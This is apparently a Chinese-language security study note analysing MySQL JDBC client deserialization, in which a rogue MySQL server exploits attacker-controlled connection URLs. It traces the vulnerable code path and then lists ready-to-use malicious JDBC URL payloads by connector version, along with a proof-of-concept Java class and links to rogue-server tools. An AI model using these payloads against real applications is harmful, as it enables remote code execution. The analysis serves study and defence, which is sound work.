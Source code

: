 # 0x01 JDBC Deserial

JDBC（Java DataBase Connectivity）是SUN公司发布的一个java程序与数据库之间通信的接口（规范），各大数据库厂商去实现JDBC规范，并将实现类打包成jar包

![image-20230123013436497](../.gitbook/assets/image-20230123013436497.png)

进行数据库连接时指定了数据库的URL及连接配置

`Connection con = DriverManager.getConnection("jdbc:mysql://localhost:3306/test","root", "root");`

若JDBC连接的URL被攻击者控制，就可以让其指向恶意的MySQL服务器

JDBC连接MySQL服务端时，会有几个内置的SQL查询语句会执行，查询的结果集会在MySQL客户端被处理时会调用`ObjectInputStream#readObject`进行反序列化。

攻击者可以搭建恶意MySQL服务器，返回精心构造的查询结果集，进行客户端反序列化攻击。

可被利用的两条查询语句：

- SHOW SESSION STATUS
- SHOW COLLATION

恶意MySQL服务器搭建：

* https://github.com/fnmsd/MySQL_Fake_Server 📌
* https://github.com/rmb122/rogue_mysql_server

```xml
<dependency>
    <groupId>mysql</groupId>
    <artifactId>mysql-connector-java</artifactId>
    <version>8.0.13</version>
</dependency>
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.2.1</version>
</dependency>
```

```java
import java.sql.*;


public class Test {
    public static void main(String[] args) throws Exception {
        Class.forName("com.mysql.jdbc.Driver");
        String jdbc_url = "jdbc:mysql://127.0.0.1:3306/test?" +
            "autoDeserialize=true" +
       "&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections7_calc";
        Connection con = DriverManager.getConnection(jdbc_url, "yso_CommonsCollections7_calc", "root");
    }
}
```

`DriverManager#getConnection`

👇

`connectOneTryOnly=>this.session.setQueryInterceptors(this.queryInterceptors);`

设置对应的查询拦截器（即我们指定的`ServerStatusDiffInterceptor`）

执行查询语句会调用拦截器的`preProcess`和`postProcess`

判断拦截器是否为空，非空则调用`invokeQueryInterceptorsPre`

![image-20230328204414675](../.gitbook/assets/image-20230328204414675.png)

`invokeQueryInterceptorsPre`调用了拦截器的`preProcess`

![image-20230328204534640](../.gitbook/assets/image-20230328204534640.png)

看到执行了`SHOW SESSION STATUS`，并将结果（`com.mysql.cj.jdbc.result.ResultSetImpl`）传入`ResultSetUtil#resultSetToMap`进行反序列化处理

![image-20230328204912985](../.gitbook/assets/image-20230328204912985.png)

```java
public static void resultSetToMap(Map mappedValues, ResultSet rs) throws SQLException {
    while (rs.next()) {
        mappedValues.put(rs.getObject(1), rs.getObject(2));
    }
}
// getObject(2)
if (field.isBinary() || field.isBlob()) {
    byte[] data = getBytes(columnIndex);
}
```

`getObject`判断MySQL类型为BLOB后，从MySQL服务端获取对应的字节码数据

从MySQL服务端获取到字节码数据后，判断`autoDeserialize`是否为true（连接URL中设置了`autoDeserialize=true`）、字节码数据是否为序列化对象（前两个字节为`-84`和`-19`标识序列化对象）等，最后调用`readObject`触发反序列化漏洞

![image-20230328215913350](../.gitbook/assets/image-20230328215913350.png)

![image-20230328215340798](../.gitbook/assets/image-20230328215340798.png)

# 0x02 Payload Collections

## `ServerStatusDiffInterceptor`触发

### 8.x<=8.0.20

> ```
> jdbc:mysql://x.x.x.x:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor
> ```

### 6.x

`queryInterceptors`改名`statementInterceptors`

> ```
> jdbc:mysql://x.x.x.x:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor
> ```

### >=5.1.11

包名不含`cj`

> ```
> jdbc:mysql://x.x.x.x:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor
> ```

### 5.x<=5.1.10

同上，需要连接后执行查询

## `detectCustomCollations`触发

### 5.1.29~5.1.40

> ```
> jdbc:mysql://x.x.x.x:3306/test?detectCustomCollations=true&autoDeserialize=true
> ```

### 5.1.19~5.1.28

> ```
> jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true
> ```

# 0x03 Reference

* [MySQL JDBC反序列化漏洞 [ Mi1k7ea \]](https://www.mi1k7ea.com/2021/04/23/MySQL-JDBC反序列化漏洞/#漏洞分析)
* [MySQL JDBC 客户端反序列化漏洞分析-安全客 - 安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/203086)
